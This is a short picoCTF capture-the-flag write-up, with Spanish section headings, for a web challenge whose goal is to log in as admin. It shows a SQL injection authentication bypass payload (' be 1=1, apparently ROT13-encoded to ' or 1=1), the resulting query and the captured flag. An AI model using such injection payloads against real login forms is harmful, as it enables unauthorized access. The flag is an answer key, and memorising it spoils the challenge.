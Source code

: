 Puntos: 400pts
# Objetivo del Nivel

There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

# Pistas del Nivel

- Seems like the password is encrypted.
# Solución/Resultado/Flag

```html
password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}
```

picoCTF{3v3n_m0r3_SQL_4424e7af}
# Notas Adicionales
# Referencias

https://play.picoctf.org/practice/challenge/80